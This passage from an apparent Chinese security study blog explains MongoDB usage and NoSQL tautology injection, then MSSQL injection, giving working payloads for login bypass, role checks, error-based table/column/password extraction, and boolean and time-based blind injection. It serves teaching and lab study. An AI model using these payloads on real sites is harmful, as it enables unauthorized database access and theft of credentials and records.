?name=admin&pass=1%1$' or 1=1--+
```

#### 3.sql查询加空格以假乱真

在SQL中执行字符串处理时，字符串末尾的空格符将会被删除。导致我们有时候为了绕过admin的限制传入admin%20可以查询到admin的结果

# 6nosql注入

## 什么是nosql？

参考文章：https://www.freebuf.com/articles/web/358650.html

NoSQL 即 Not Only SQL，意即 “不仅仅是SQL”。他指的不是单单某一种数据库管理系统，而是用于描述一类数据库管理系统，包括键值数据库，列式数据库，文本数据库，图形数据库等。这些系统会使用不同于传统关系型数据库的数据存储模型。NoSQL数据库**提供比传统SQL数据库更宽松的一致性限制**。 通过减少关系约束和一致性检查，**NoSQL数据库提供了更好的性能和扩展性**。 然而，即使这些数据库没有使用传统的SQL语法，它们仍然可能很容易的受到注入攻击。 由于这些NoSQL注入攻击可以在程序语言中执行，而不是在声明式 SQL语言中执行，所以潜在影响要大于传统SQL注入。

而MongoDB 是当前最流行的 NoSQL 数据库产品之一，由 C++ 语言编写，是一个基于分布式文件存储的数据库。旨在为 WEB 应用提供可扩展的高性能数据存储解决方案。

### NSQL数据库类型

NOSQL主要有四种数据类型，分别是文档数据库，键值数据库，宽列存储数据库和图形数据库。

- **文档数据库**将数据存储在类似于 JSON（JavaScript 对象表示法）对象的文档中。每个文档包含成对的字段和值。这些值通常可以是各种类型，包括字符串、数字、布尔值、数组或对象等，并且它们的结构通常与开发者在代码中使用的对象保持一致。由于字段值类型和强大的查询语言的多样性，因此文档数据库非常适合各种各样的使用案例，并且可以用作通用数据库。它们可以横向扩展以适应大量数据。
- **键值数据库**是一种较简单的数据库，其中每个项目都包含键和值。通常只能通过引用键来检索值，因此学习如何查询特定键值对通常很简单。键值数据库非常适合需要存储大量数据但无需执行复杂查询来检索数据的使用案例。常见的使用案例包括存储用户首选项或缓存。Redis 和 DynanoDB 是流行的键值数据库。
- **宽列存储**将数据存储在表、行和动态列中。宽列存储提供了比关系型数据库更大的灵活性，因为不需要每一行都具有相同的列。许多人认为宽列存储是二维键值数据库。宽列存储非常适合需要存储大量数据并且可以预测查询模式的情况。宽列存储通常用于存储物联网数据和用户配置文件数据。Cassandra 和 HBase 是较受欢迎的两种宽列存储。
- **图形数据库**将数据存储在节点和边中。节点通常存储有关人物、地点和事物的信息，而边缘则存储有关节点之间的关系的信息。在需要遍历关系以查找模式（例如社交网络，欺诈检测和推荐引擎）的使用案例中，图形数据库非常出色。Neo4j 和 JanusGraph 是图形数据库的示例。

接下来我们就以MongDB为例，去讲解这个nosql注入

## 什么是 MongoDB ?

MongoDB 是一个文档型数据库，数据以类似 JSON 的文档形式存储。

MongoDB 将数据存储为一个文档，数据结构由键值（key=>value）对组成。MongoDB 文档类似于 JSON 对象。字段值可以包含其他文档，数组及文档数组。

MongoDB使用集合（Collections）来组织文档（Documents），每个文档都是由键值对组成的。

- **数据库（Database）**：存储数据的容器，类似于关系型数据库中的数据库。
- **集合（Collection）**：数据库中的一个集合，类似于关系型数据库中的表。
- **文档（Document）**：集合中的一个数据记录，类似于关系型数据库中的行（row），以 BSON 格式存储。

## 关于MongDB基础使用

| RDBMS  | MongoDB                           |
| ------ | --------------------------------- |
| 数据库 | 数据库                            |
| 表格   | 集合                              |
| 行     | 文档                              |
| 列     | 字段                              |
| 表联合 | 嵌入文档                          |
| 主键   | 主键（MongoDB 提供了 key 为 _id） |

- 数据库(database)

一个 MongoDB 中可以建立多个数据库。MongoDB 的单个实例可以容纳多个独立的数据库，每一个都有自己的集合和权限，不同的数据库也放置在不同的文件中。

```
show dbs显示所有的数据库的列表
db 显示当前数据库对象或集合
use 数据库名
```

- 集合(collection)

集合就是 MongoDB 文档组，类似于 RDBMS 关系数据库管理系统中的表格。集合存在于数据库中，集合没有固定的结构，这意味着你在对集合可以插入不同格式和类型的数据。

`show collections` 或 `show tables` 命令可以查看已有集合

- 文档（Document）

文档是一组键值（key-value）对，类似于 RDBMS 关系型数据库中的一行。MongoDB 的文档不需要设置相同的字段，并且相同的字段不需要相同的数据类型，这与关系型数据库有很大的区别，也是 MongoDB 非常突出的特点。

## 安装MongoDB

```
更新软件源
sudo apt update
sudo apt upgrade -y
导入密钥
wget -qO - https://www.mongodb.org/static/pgp/server-6.0.asc | sudo apt-key add -
添加 MongoDB 的软件源
echo "deb [ arch=amd64,arm64 ] https://repo.mongodb.org/apt/ubuntu $(lsb_release -cs)/mongodb-org/6.0 multiverse" | sudo tee /etc/apt/sources.list.d/mongodb-org-6.0.list
sudo apt update
安装 MongoDB
sudo apt install -y mongodb-org
启动服务
sudo systemctl start mongod
设置开机自启动
sudo systemctl enable mongod
检测服务状态
sudo systemctl status mongod
```

安装好后我们打开MongoDB

```
mongosh
```



然后我们看看版本

```
test> db.version()
6.0.23
```

成功安装

## MongoDB基础语法

在MongoDB中，数据库的创建是一个简单的过程，当你首次向MongoDB中插入数据时，如果数据库不存在，MongoDB会自动创建它。

## 1.操作数据库

### 查看数据库列表

```
show dbs
```

### 查看当前使用数据库

```
db
```

### 创建数据库

当你使用 **use** 命令来指定一个数据库时，如果该数据库不存在，MongoDB将自动创建它。

```nosql
use DATABASE_NAME #如果数据库不存在，则创建数据库，否则切连接并换到指定数据库
```

举个例子

```
test> use helloworld
switched to db helloworld
helloworld> db
helloworld
```

但是我们在show dbs的时候并不会看到现在创建的数据库

```
helloworld> show dbs
admin   40.00 KiB
config  60.00 KiB
local   40.00 KiB
```

要显示它，我们需要向 runoob 数据库插入一些数据。

### 删除数据库

如果你需要删除数据库，可以使用 **db.dropDatabase()** 方法：

```
use myDatabase
db.dropDatabase()
```

需要注意的是，当我们没有指定数据库的时候，系统默认是test数据库，所有的操作都是指向test数据库的

## 2.操作集合

### 创建集合

使用 `createCollection()` 方法来创建集合

基础语法

```
db.createCollection(name, options)
```

- name：要创建的集合名称
- options：可选参数，指定有关内存大小及索引的选项

关于options的参数

摘录自[菜鸟教程](https://www.runoob.com/mongodb/mongodb-create-collection.html)

| 参数名             | 类型   | 描述                                                         | 示例值                          |
| :----------------- | :----- | :----------------------------------------------------------- | :------------------------------ |
| `capped`           | 布尔值 | 是否创建一个固定大小的集合。                                 | `true`                          |
| `size`             | 数值   | 集合的最大大小（以字节为单位）。仅在 `capped` 为 true 时有效。 | `10485760` (10MB)               |
| `max`              | 数值   | 集合中允许的最大文档数。仅在 `capped` 为 true 时有效。       | `5000`                          |
| `validator`        | 对象   | 用于文档验证的表达式。                                       | `{ $jsonSchema: { ... }}`       |
| `validationLevel`  | 字符串 | 指定文档验证的严格程度。 `"off"`：不进行验证。 `"strict"`：插入和更新操作都必须通过验证（默认）。 `"moderate"`：仅现有文档更新时必须通过验证，插入新文档时不需要。 | `"strict"`                      |
| `validationAction` | 字符串 | 指定文档验证失败时的操作。 `"error"`：阻止插入或更新（默认）。 `"warn"`：允许插入或更新，但会发出警告。 | `"error"`                       |
| `storageEngine`    | 对象   | 为集合指定存储引擎配置。                                     | `{ wiredTiger: { ... }}`        |
| `collation`        | 对象   | 指定集合的默认排序规则。                                     | `{ locale: "en", strength: 2 }` |

举个例子，我们在数据库中创建一个集合

```
test> use helloworld
switched to db helloworld
helloworld> db.createCollection("users")
{ ok: 1 }
```

### 查看集合

```
show collections
show tables
```

这两个命令都可以

```
helloworld> show collections
users
helloworld> show tables
users
```

### 更新集合名

在 MongoDB 中，不能直接通过命令来重命名集合。需要使用renameCollection 方法来重命名集合。

#### renameCollection 方法

renameCollection 方法在 MongoDB 的 admin 数据库中运行，可以将一个集合重命名为另一个名称。

语法

```sql
db.adminCommand({
  renameCollection: "sourceDb.sourceCollection",
  to: "targetDb.targetCollection",
  dropTarget: <boolean>
})
```

**参数说明：**

- **renameCollection**：要重命名的集合的完全限定名称（包括数据库名）。
- **to**：目标集合的完全限定名称（包括数据库名）。
- **dropTarget**（可选）：布尔值。如果目标集合已经存在，是否删除目标集合。默认值为 `false`。

我们本地尝试一下

```sql
helloworld> db.adminCommand({
... renameCollection:"helloworld.users",
... to:"helloworld.users1"
... });
{ ok: 1 }
helloworld> show tables
users1
```

我们也可以将集合重命名到另一个数据库

```sql
helloworld> use helloworld1
switched to db helloworld1
helloworld1> db.createCollection("user")
{ ok: 1 }
helloworld1> db.adminCommand({
... renameCollection:"helloworld1.user",
... to:"helloworld.user"
... });
{ ok: 1 }
helloworld1> show tables;

helloworld1> use helloworld
switched to db helloworld
helloworld> show tables
user
users1
```

需要注意的是，使用renameCollection命令需要具有对两边数据库都有操作权限，例如dbadmin

### 删除集合

```
db.collection.drop()
```

无参数

例如我们删除刚刚已存在的users1

```sql
helloworld> db.users1.drop()
true
helloworld> show tables;
user
```

## 3.操作文档

### 插入文档

其实插入文档的方法有两种，一种是插入单个文档insertOne()，一种是插入多个文档insertMany()

#### 插入单个文档insertOne()

insertOne() 方法用于在集合中插入单个文档。

基础语法

```
db.collection.insertOne(document, options)
```

- document：要插入的单个文档。
- options（可选）：一个可选参数对象，可以包含 writeConcern 和 bypassDocumentValidation 等。

举个例子，我们在数据库的集合中插入一个文档

```sql
helloworld> db.user.insertOne({
... name:"wanth3f1ag",
... age:20,
... city:"Cheng Du"
... });
{
  acknowledged: true,
  insertedId: ObjectId('682d99b59f4df71519c59f35')
}
```

然后我们find查询文档

```sql
helloworld> db.user.find()
[
  {
    _id: ObjectId('682d99b59f4df71519c59f35'),
    name: 'wanth3f1ag',
    age: 20,
    city: 'Cheng Du'
  }
]
```

可以看到这里成功插入了一个文档

#### 插入多个文档insertMany()

语法

```
db.collection.insertMany([documents], options)
```

- documents：要插入的文档数组。
- options（可选）：一个可选参数对象，可以包含 ordered、writeConcern 和 bypassDocumentValidation 等。

这里和单个文档不同的是，这里的插入多个文档数组，最后用方括号包裹

测试一下

```sql
helloworld> db.createCollection("user2")
{ ok: 1 }
helloworld> db.user2.insertMany([
... {name:"wang",age: 19,city: "Bei Jing"},
... {name:"zhang",age: 21,city:"New York"}
... ]);
{
  acknowledged: true,
  insertedIds: {
    '0': ObjectId('682d9abd9f4df71519c59f36'),
    '1': ObjectId('682d9abd9f4df71519c59f37')
  }
}
```

find()查询一下

```sql
helloworld> db.user2.find()
[
  {
    _id: ObjectId('682d9abd9f4df71519c59f36'),
    name: 'wang',
    age: 19,
    city: 'Bei Jing'
  },
  {
    _id: ObjectId('682d9abd9f4df71519c59f37'),
    name: 'zhang',
    age: 21,
    city: 'New York'
  }
]
```

可以看到这里插入了两行文档数组

### 更新文档

常用的方法包括 **updateOne()、updateMany()、replaceOne() 和 findOneAndUpdate()**。

使用 `updateOne()` 或 `save()` 方法来更新集合中的文档

#### **updateOne()方法**

updateOne() 方法用于更新匹配过滤器的单个文档。

基础语法

```
db.collection.updateOne(filter, update, options)
```

- **filter**：用于查找文档的查询条件。
- **update**：指定更新操作的文档或更新操作符。
- **options**：可选参数对象，如 `upsert`、`arrayFilters` 等。

那我们用这个方法将age年龄从19更新到30

```sql
helloworld> db.user.updateOne({
... name:"wanth3f1ag"},
... {$set:{age:30}}
... );
{
  acknowledged: true,
  insertedId: null,
  matchedCount: 1,
  modifiedCount: 1,
  upsertedCount: 0
}
```

然后我们查询一下文档是否更新

```sql
helloworld> db.user.find()
[
  {
    _id: ObjectId('682d99b59f4df71519c59f35'),
    name: 'wanth3f1ag',
    age: 30,
    city: 'Cheng Du'
  }
]
```

#### updateMany()方法

updateMany() 方法用于更新所有匹配过滤器的文档。

语法

```
db.collection.updateMany(filter, update, options)
```

- **filter**：用于查找文档的查询条件。
- **update**：指定更新操作的文档或更新操作符。
- **options**：可选参数对象，如 `upsert`、`arrayFilters` 等。

#### replaceOne()方法

也是更新单个文档的

语法

```
db.collection.replaceOne(filter, replacement, options)
```

- **filter**：用于查找文档的查询条件。
- **replacement**：新的文档，将替换旧的文档。
- **options**：可选参数对象，如 `upsert` 等。

### 删除文档

常用的删除文档方法包括 deleteOne()、deleteMany() 以及 findOneAndDelete()。

语法

```
db.collection.deleteOne(filter, options)
db.collection.deleteMany(filter, options)
```

### 查询文档

MongoDB 查询文档使用 **find()**、**findOne()** 方法。

####  **find()**方法

语法

```
db.collection.find(query, projection)
```

- **query**：用于查找文档的查询条件。默认为 `{}`，即匹配所有文档。
- **projection**（可选）：指定返回结果中包含或排除的字段。

#### findOne()方法

语法

```
db.collection.findOne(query, projection)
```

如果找到多个匹配的文档，它只返回第一个。

- **query**：用于查找文档的查询条件。默认为 `{}`，即匹配所有文档。
- **projection**（可选）：指定返回结果中包含或排除的字段。

## 4.关于操作符

### 比较操作符

MongoDB 支持多种比较操作符，如 **$gt(大于)、$lt(小于)、$gte(大于等于)、$lte(小于等于)、$eq(等于)、$ne(不等于)** 等。

| 操作符 | 描述             | 示例                              |
| :----- | :--------------- | :-------------------------------- |
| `$eq`  | 等于             | `{ age: { $eq: 25 } }`            |
| `$ne`  | 不等于           | `{ age: { $ne: 25 } }`            |
| `$gt`  | 大于             | `{ age: { $gt: 25 } }`            |
| `$gte` | 大于等于         | `{ age: { $gte: 25 } }`           |
| `$lt`  | 小于             | `{ age: { $lt: 25 } }`            |
| `$lte` | 小于等于         | `{ age: { $lte: 25 } }`           |
| `$in`  | 在指定的数组中   | `{ age: { $in: [25, 30, 35] } }`  |
| `$nin` | 不在指定的数组中 | `{ age: { $nin: [25, 30, 35] } }` |

语法

```
{ field: { 比较操作符 : value } }
```

例如我们查找年龄大于等于20的文档

```sql
helloworld> db.user2.find()
[
  {
    _id: ObjectId('682d9abd9f4df71519c59f36'),
    name: 'wang',
    age: 19,
    city: 'Bei Jing'
  },
  {
    _id: ObjectId('682d9abd9f4df71519c59f37'),
    name: 'zhang',
    age: 21,
    city: 'New York'
  }
]
helloworld> db.user2.find({age:{$gte:20}})
[
  {
    _id: ObjectId('682d9abd9f4df71519c59f37'),
    name: 'zhang',
    age: 21,
    city: 'New York'
  }
]
```

### 逻辑操作符

**$and、$or、$not、$nor**等逻辑操作符

| 操作符 | 描述                   | 示例                                                       |
| :----- | :--------------------- | :--------------------------------------------------------- |
| `$and` | 逻辑与，符合所有条件   | `{ $and: [ { age: { $gt: 25 } }, { city: "New York" } ] }` |
| `$or`  | 逻辑或，符合任意条件   | `{ $or: [ { age: { $lt: 25 } }, { city: "New York" } ] }`  |
| `$not` | 取反，不符合条件       | `{ age: { $not: { $gt: 25 } } }`                           |
| `$nor` | 逻辑或非，均不符合条件 | `{ $nor: [ { age: { $gt: 25 } }, { city: "New York" } ] }` |

语法

```
{ $and/nor/or: [ { condition1 }, { condition2 } ] }
```

例如我们需要查找年龄大于10或者城市为纽约的

```sql
helloworld> db.user2.find({ $or: [ { age: { $gte: 10 } }, { city: "New York" }] })
[
  {
    _id: ObjectId('682d9abd9f4df71519c59f36'),
    name: 'wang',
    age: 19,
    city: 'Bei Jing'
  },
  {
    _id: ObjectId('682d9abd9f4df71519c59f37'),
    name: 'zhang',
    age: 21,
    city: 'New York'
  }
]
```

### 正则表达式

MongoDB 使用 **$regex** 操作符来设置匹配字符串的正则表达式。

| `$regex` | 匹配正则表达式 | `{ name: { $regex: /^A/ } }` |
| -------- | -------------- | ---------------------------- |

正则表达式符号

| 符号     | 描述                                                      |
| -------- | --------------------------------------------------------- |
| `.`      | 匹配任意单个字符（除换行符外）。                          |
| `^`      | 匹配字符串的开头。                                        |
| `$`      | 匹配字符串的结尾。                                        |
| `*`      | 匹配前面的字符零次或多次。                                |
| `+`      | 匹配前面的字符一次或多次。                                |
| `?`      | 匹配前面的字符零次或一次。                                |
| `{n}`    | 匹配前面的字符恰好 `n` 次。                               |
| `{n,}`   | 匹配前面的字符至少 `n` 次。                               |
| `{n,m}`  | 匹配前面的字符至少 `n` 次，最多 `m` 次。                  |
| `[abc]`  | 匹配字符集合中的任意一个字符（如 `a`、`b` 或 `c`）。      |
| `[^abc]` | 匹配不在字符集合中的任意一个字符。                        |
| `\d`     | 匹配任意数字字符（等价于 `[0-9]`）。                      |
| `\D`     | 匹配任意非数字字符。                                      |
| `\w`     | 匹配任意字母、数字或下划线字符（等价于 `[a-zA-Z0-9_]`）。 |
| `\W`     | 匹配任意非字母、数字或下划线字符。                        |
| `\s`     | 匹配任意空白字符（包括空格、制表符、换行符等）。          |
| `\S`     | 匹配任意非空白字符。                                      |
| `(abc)`  | 捕获组，匹配 `abc` 并将其保存为子匹配项。                 |
| `        | `                                                         |

## Nosql注入

和传统的mysql不一样，nosql的查询语法是基于应用程序的编程语言去决定的，例如PHP，Java，Python等，所以这也意味着存在nosql注入的时候我们不仅可以在数据库中执行命令，也可以在应用程序中执行命令

### 注入方法

#### 1.重言式注入

- **重言式注入**又称为永真式，此类攻击是在条件语句中注入代码，使生成的表达式判定结果永远为真，从而绕过认证或访问机制。

这个的话往往需要结合操作符去进行注入，例如在这些操作符中，**$ne**就是我们在重言式注入中需要利用到的那个。它的作用是将不等于指定值的数据都查询出来。比如$ne=1时就是将所有不等于1的数据都查询出来。

# mssql注入

借鉴师傅的文章:https://y4er.com/posts/mssql-injection-learn/#%E7%AC%A6%E5%8F%B7,https://y4er.com/posts/mssql-getshell/

https://www.secpulse.com/archives/193819.html

什么是mssql？

MSSQL，或称为Microsoft SQL Server，mssql是Microsoft System Structured Query Language 的缩写，是指微软操作系统的数据库语言，是由微软开发的一种数据库关系管理系统（RDBMS）。

### MSSQL基础使用

讲到mssql数据库，我们首先要了解到里面的自带库

默认自带库的类型

```
master   //用于记录所有SQL Server系统级别的信息，这些信息用于控制用户数据库和数据操作。
model    //SQL Server为用户数据库提供的样板，新的用户数据库都以model数据库为基础
msdb     //由 Enterprise Manager和Agent使用，记录着任务计划信息、事件处理信息、数据备份及恢复信息、警告及异常信息。
tempdb   //它为临时表和其他临时工作提供了一个存储区。
```

其中最常用的就是master库了

#### master库

master数据库是系统数据库，这里存储了所有数据库名和存储过程，就好比mysql里面的information_schema元数据库，这个存储过程其实就好比是一个函数调用的过程

储存过程是一个可编程的函数，它在数据库中创建并保存。它可以有SQL语句和一些特殊的控制结构组成。当希望在不同的应用程序或平台上执行相同的函数，或者封装特定功能时，存储过程是非常有用的。数据库中的存储过程可以看做是对编程中面向对象方法的模拟。它允许控制数据的访问方式。(不是注入的重点，主要是后面getshell需要用，所以简单了解一下就可以了，下面还会带到)

这里贴一张关于master库的展示图



在master数据库中有`master.dbo.sysdatabases`视图，储存所有数据库名,其他数据库的视图则储存他本库的表名与列名。 每一个库的视图表都有`syscolumns`存储着所有的字段，可编程性储存着我们的函数。

查询数据库语句

```mssql
select name from master.dbo.sysdatabases;
#在 SQL Server 中，查询master.dbo.sysdatabases视图可以用于获取实例数据库中所有数据库的名称。
master
tempdb
model
msdb
test
asp_net
asp_test
```

关于字段

```mssql
select top 1 name,xtype from sysobjects;
#这是一个 SELECT 查询语句，它从 sysobjects 表中选择顶部 1 条记录，并仅检索 name 和 xtype 列的值。
```

但是这里的xtype是可控的，可以是下面这些类型的一种

- C = CHECK 约束
- D = 默认值或 DEFAULT 约束
- F = FOREIGN KEY 约束
- L = 日志
- FN = 标量函数
- IF = 内嵌表函数
- P = 存储过程
- PK = PRIMARY KEY 约束（类型是 K）
- RF = 复制筛选存储过程
- S = 系统表
- TF = 表函数
- TR = 触发器
- U = 用户表
- UQ = UNIQUE 约束（类型是 K）
- V = 视图
- X = 扩展存储过程

### 信息搜集

我们先了解一下服务器级别和数据库级别的角色的区别

1. 服务器级别角色：
   - 服务器级别角色是定义在整个 SQL Server 实例上的一组固定角色。
   - 这些角色控制着整个服务器的权限和功能，如安全设置、备份操作、服务器级别配置等。
2. 数据库级别角色：
   - 数据库级别角色是定义在特定数据库中的一组角色。
   - 这些角色控制着数据库中对象的访问权限，如表、视图、存储过程等。
   - 数据库级别角色与服务器级别角色的作用范围不同，主要关注数据库内部的权限控制。

#### 服务器级别



我们可以用`IS_SRVROLEMEMBER`来判断服务器级别的固定角色

`IS_SRVROLEMEMBER` 是一个系统函数，用于检查指定登录名是否属于指定的服务器级别的固定角色。我们可以利用这个函数的role的有效值去判断服务器级别的固定角色

| 返回值 | 描述                                                 |
| ------ | ---------------------------------------------------- |
| 0      | login 不是 role 的成员。                             |
| 1      | login 是 role 的成员。                               |
| NULL   | role 或 login 无效，或者没有查看角色成员身份的权限。 |

然后我们构造语句

```mssql
and 1=(select is_srvrolemember('sysadmin'))
and 1=(select is_srvrolemember('serveradmin'))
and 1=(select is_srvrolemember('setupadmin'))
and 1=(select is_srvrolemember('securityadmin'))
and 1=(select is_srvrolemember('diskadmin'))
and 1=(select is_srvrolemember('bulkadmin'))
```

`is_srvrolemember` 函数需要传入两个参数，即固定角色名和登录名。

在 SQLMap 中使用 –is-dba 命令可以判断是否为管理员权限，即服务器级别的固定角色

```mssql
select * from admin where id =1 AND 5560 IN (SELECT (CHAR(113)+CHAR(122)+CHAR(113)+CHAR(107)+CHAR(113)+(SELECT (CASE WHEN (IS_SRVROLEMEMBER(CHAR(115)+CHAR(121)+CHAR(115)+CHAR(97)+CHAR(100)+CHAR(109)+CHAR(105)+CHAR(110))=1) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(118)+CHAR(112)+CHAR(120)+CHAR(113)))
```

#### 数据库级别



数据库级别的应用角色用`IS_ROLEMEMBER`函数判断

```mssql
?id=1 and 1=(select IS_ROLEMEMBER('db_owner'))--
?id=1 and 1=(select IS_ROLEMEMBER('db_securityadmin'))--
?id=1 and 1=(select IS_ROLEMEMBER('db_accessadmin'))--
?id=1 and 1=(select IS_ROLEMEMBER('db_backupoperator'))--
?id=1 and 1=(select IS_ROLEMEMBER('db_ddladmin'))--
?id=1 and 1=(select IS_ROLEMEMBER('db_datawriter'))--
?id=1 and 1=(select IS_ROLEMEMBER('db_datareader'))--
?id=1 and 1=(select IS_ROLEMEMBER('db_denydatawriter'))--
```

讲完了这个我们再来了解一下基本信息

```
SELECT @@version; //版本
SELECT user;		//用户
SELECT DB_NAME();	//当前数据库名，你可以用db_name(n)来遍历出所有的数据库
SELECT @@servername;	//主机名
```

那么站库分离可以这么来判断

```
select * from user where id='1' and host_name()=@@servername;--'
```

站库分离的话实际上就是站点和数据库各司其职，二者互相独立，提高系统性能和可维护性

### 常见符号

1.注释符号

```
/**/
--
//
```

双斜杠是用来注释单行代码的，而/**/是用于注释多行代码的

2.空白字符

```
空格字符（%20）
制表符\t
换行符\n
回车符\r
```

3.运算符

```
&位与逻辑运算符，从两个表达式中取对应的位。当且仅当输入表达式中两个位的值都为1时，结果中的位才被设置为1，否则，结果中的位被设置为0
|位或逻辑运算符，从两个表达式中取对应的位。如果输入表达式中两个位只要有一个的值为1时，结果的位就被设置为1，只有当两个位的值都为0时，结果中的位才被设置为0
^位异或逻辑运算符，从两个表达式中取对应的位。如果输入表达式中两个位只有一个的值为1时，结果中的位就被设置为1；只有当两个位的值都为0或1时，结果中的位才被设置为0

ALL 如果一组的比较都为true，则比较结果为true
AND 如果两个布尔表达式都为true，则结果为true；如果其中一个表达式为false，则结果为false
ANY 如果一组的比较中任何一个为true，则结果为true
BETWEEN 如果操作数在某个范围之内，那么结果为true
EXISTS  如果子查询中包含了一些行，那么结果为true
IN  如果操作数等于表达式列表中的一个，那么结果为true
LIKE    如果操作数与某种模式相匹配，那么结果为true
NOT 对任何其他布尔运算符的结果值取反
OR  如果两个布尔表达式中的任何一个为true，那么结果为true
SOME    如果在一组比较中，有些比较为true，那么结果为true
```

### 基本注入流程

爆破当前数据库

```
SELECT * FROM Fanmv_Admin WHERE AdminID=1 and DB_NAME()>1;
?id=1'and db_name()>0;--
```

为什么这个可以爆出来呢

这里利用mssql数据类型不一样的报错情况，在将 nvarchar 值 'FanmvCMS' 转换成数据类型 int 时失败。从而把数据库爆出来

爆破表名

在将 nvarchar 值 'Fanmv_Admin' 转换成数据类型 int 时失败。

```mssql
SELECT * FROM Fanmv_Admin WHERE AdminID=1 and 1=(SELECT TOP 1 name from sysobjects WHERE xtype='u');
查询表的完整步骤
?id=1 and 1=(select top 1 name from sysobjects where xtype='u');--
//旨在返回数据库中第一个用户表的名称。
//然后通过不断调整查询条件的name not in('table_name')，逐步排除已知表名去拿到我们想找的表名
?id=1 and 1=(select top 1 name from sysobjects where xtype='u' and name not in ('fsb_accounts'));--
?id=1 and 1=(select top 1 name from sysobjects where xtype='u' and name not in ('fsb_accounts', 'fsb_fund_transfers'));--
?id=1 and 1=(select top 1 name from sysobjects where xtype='u' and name not in ('fsb_accounts', 'fsb_fund_transfers', 'fsb_loan_rates'));--
('fsb_accounts', 'fsb_fund_transfers'));--
?id=1 and 1=(select top 1 name from sysobjects where xtype='u' and name not in ('fsb_accounts', 'fsb_fund_transfers', 'fsb_loan_rates'));--
?id=1 and 1=(select top 1 name from sysobjects where xtype='u' and name not in ('fsb_accounts', 'fsb_fund_transfers', 'fsb_loan_rates', 'fsb_messages'));--
?id=1 and 1=(select top 1 name from sysobjects where xtype='u' and name not in ('fsb_accounts', 'fsb_fund_transfers', 'fsb_loan_rates', 'fsb_messages', 'fsb_transactions'));--
?id=1 and 1=(select top 1 name from sysobjects where xtype='u' and name not in ('fsb_accounts', 'fsb_fund_transfers', 'fsb_loan_rates', 'fsb_messages', 'fsb_transactions', 'fsb_users'));-
```

爆破字段名

在将 nvarchar 值 'AdminID' 转换成数据类型 int 时失败。

```mssql
SELECT * FROM Fanmv_Admin WHERE AdminID=1 and 1=(select top 1 name from syscolumns where id=(select id from sysobjects where name = 'Fanmv_Admin'));
查询字段名的具体步骤
?id=1 and 1=(select top 1 name from syscolumns where id=(select id from sysobjects where name = 'fsb_accounts'));--
//尝试从sysobjects中获取fsb_accounts的ID，然后从syscolumns中获取该表的第一个字段名
//然后逐步排除字段找到我们想要的字段名
?id=1 and 1=(select top 1 name from syscolumns where id=(select id from sysobjects where name = 'fsb_accounts') and name<>'account_no');--
?id=1 and 1=(select top 1 name from syscolumns where id=(select id from sysobjects where name = 'fsb_accounts') and name<>'account_no' and name<>'account_type');--
?id=1 and 1=(select top 1 name from syscolumns where id=(select id from sysobjects where name = 'fsb_accounts') and name<>'account_no' and name<>'account_type' and name<>'balance_amount');--
```

爆破数据

在将 varchar 值 '81FAAEN52MA16VBYT4Y1JJ3552BTC1640E7CF84345C86BA6' 转换成数据类型 int 时失败。

```mssql
SELECT * FROM Fanmv_Admin WHERE AdminID=1 and 1=(SELECT TOP 1 AdminPass from Fanmv_Admin);
查询数据的具体步骤
?id=1 and 1=(select top 1 branch from fsb_accounts);--
//尝试从表 fsb_accounts 中获取第一个 branch 列的值。通过 select top 1 子句，它只返回结果集中的第一个值。
?id=1 and 1=(select top 1 branch from fsb_accounts where branch<>'Texas-Remington Circle');--
//排除了 branch 列值为 'Texas-Remington Circle' 的记录，只返回除此之外的第一个 branch 列的值。
?id=1 and 1=(select top 1 branch from fsb_accounts where branch not in ('Texas-Remington Circle', 'Mahnattan - New york'));--
//除了排除 'Texas-Remington Circle' 外，还排除了 'Mahnattan - New york'，然后返回除这两个值之外的第一个 branch 列的值。
```

当然，在mssql中除了借助 `sysobjects` 表和 `syscolumns` 表获取表名、列名外，MSSQL 数据库中也兼容 `information_schema`，里面存放了数据表表名和字段名。使用方法与 MySQL 相同。

```mssql
/* 查询表名可以用 information_schema.tables */
?id=1 and 1=(select top 1 table_name from information_schema.tables);--
/* 查询列名可以用 information_schema.columns */
?id=1 and 1=(select top 1 column_name from information_schema.columns where table_name='fsb_accounts');--
```

我们要判断当前的表名和列名，也可以用`having 1=1` 和 `group by`

```
SELECT * FROM Fanmv_Admin WHERE AdminID=1 having 1=1
```

选择列表中的列 'Fanmv_Admin.AdminID' 无效，因为该列没有包含在聚合函数或 GROUP BY 子句中。

爆出一列，将其用group by 拼接进去继续往后爆其他的

```
SELECT * FROM Fanmv_Admin WHERE AdminID=1 GROUP BY AdminID having 1=1
```

选择列表中的列 'Fanmv_Admin.IsSystem' 无效，因为该列没有包含在聚合函数或 GROUP BY 子句中。

```
SELECT * FROM Fanmv_Admin WHERE AdminID=1 GROUP BY AdminID,IsSystem having 1=1
```

选择列表中的列 'Fanmv_Admin.AdminName' 无效，因为该列没有包含在聚合函数或 GROUP BY 子句中。

以此爆出所有字段

### mssql报错注入

其实上面已经讲到了报错注入的一些基本用法，但是这里还是得把概念理清楚

MSSQL 数据库是强类型语言数据库，当类型不一致时将会报错，配合子查询即可实现报错注入。前提是服务器允许返回报错信息。报错注入利用的就是显式或隐式的类型转换来报错

先看隐式报错

隐式报错（Implicit Error）是指在代码执行过程中发生错误，但这些错误并不会显式地抛出异常或产生明确的错误消息。相反，这些错误可能会导致程序出现不可预料的行为或结果

```
select * from admin where id =1 and (select user)>0
```

user和0进行比较时因为数据类型不一致就会报错

再看显式报错，显式报错（Explicit Error）是指通过有意设置错误条件来产生错误消息的情况。

一般显式报错中我们会用`cast`和`convert`函数去有意的设置错误条件达到报错注入的目的

在SQL中，CAST和CONVERT函数都用于将一个数据类型转换为另一个数据类型

```
select * from admin where id =1 (select CAST(USER as int))
select * from admin where id =1 (select convert(int,user))
```

### 盲注

其实和mysql的一样，通过设置判断条件并通过页面的回显信息去判断条件是否符合来达到注入的效果

布尔盲注

```
?id=1 and ascii(substring((select top 1 name from master.dbo.sysdatabases),1,1)) >= 109
```

布尔盲注没有mssql那么多姿势，大同小异截取字符串比较，通过判断条件去拿到真实的内容

时间盲注

```
?id=1;if (select IS_SRVROLEMEMBER('sysadmin'))=1 waitfor delay '0:0:5'--
?id=1;if (ascii(substring((select top 1 name from master.dbo.sysdatabases),1,1)))>1 waitfor delay '0:0:5'--
```

`waitfor delay '0:0:5'`是mssql的延时语法

但是mssql的盲注还是相对来说简单很多的

### 联合注入

mssql不用数字占位，因为可能会发生隐式转换，我们用null来占位

在mysql中，爆数据库我们通常是这样去做的

```mysql
?id=1 union select 1,2,database()#
```

但是在mssql中我们就得稍微变一下

